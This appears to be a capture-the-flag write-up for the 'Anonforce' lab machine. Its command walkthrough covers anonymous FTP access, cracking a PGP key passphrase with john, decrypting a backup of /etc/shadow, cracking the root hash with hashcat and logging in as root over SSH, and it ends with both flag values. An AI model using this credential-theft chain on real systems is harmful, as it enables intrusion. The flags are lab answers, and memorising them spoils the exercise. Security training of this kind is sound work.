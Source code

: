 # Anonforce - Easy

```shell
sudo vim /etc/hosts
#map ip to anonforce.thm

nmap -T4 -p- -A -Pn -v anonforce.thm

ftp anonforce.thm
#using anonymous mode

cd notread

ls -la
#this contains a .pgp and .asc file

mget *

cd ..

cd home

ls -la

cd melodias

ls -la
#we can get user flag

exit
#exit ftp

gpg2john private.asc > asc_hash

john --wordlist=/usr/share/wordlists/rockyou.txt asc_hash
#gives passphrase

gpg --import private.asc
#use passphrase

gpg --decrypt backup.pgp
#prints /etc/shadow

vim hash.txt

hashcat -a 0 melodias.txt /usr/share/wordlists/rockyou.txt
#does not crack

hashcat -a 0 root.txt /usr/share/wordlists/rockyou.txt
#cracks the hash

ssh root@anonforce.thm
#use password found above
#we are root
```

* Open ports & services:

  * 21 - ftp - vsftpd 3.0.3
  * 22 - ssh - OpenSSH 7.2p2 (Ubuntu)

* We can log into ```ftp``` using anonymous mode.

* Logging in, we can see that it lists the root directory; we can enumerate for clues.

* We can get user flag from 'melodias' home directory.

* From the /notread directory, we can get a .pgp file and .asc file.

* Using ```gpg2john```, we can crack the .asc file to get passphrase.

* We can use the passphrase to decrypt the .pgp file and view its contents.

* Decrypting the .pgp file outputs the contents of /etc/shadow - this includes hashes

* We can copy the hashes for 'root' and 'melodias' to a file.

* We can attempt to crack this using ```hashcat``` - the hash for 'melodias' is a md5crypt hash and the 'root' hash is a sha512crypt hash.

* We are unable to crack the hash for 'melodias' using rockyou wordlist, but we are able to crack the root hash.

* We can log into SSH using the cracked password for root, and get root flag.

```markdown
1. user.txt - 606083fd33beb1284fc51f411a706af8

2. root.txt - f706456440c7af4187810c31c6cebdce
```
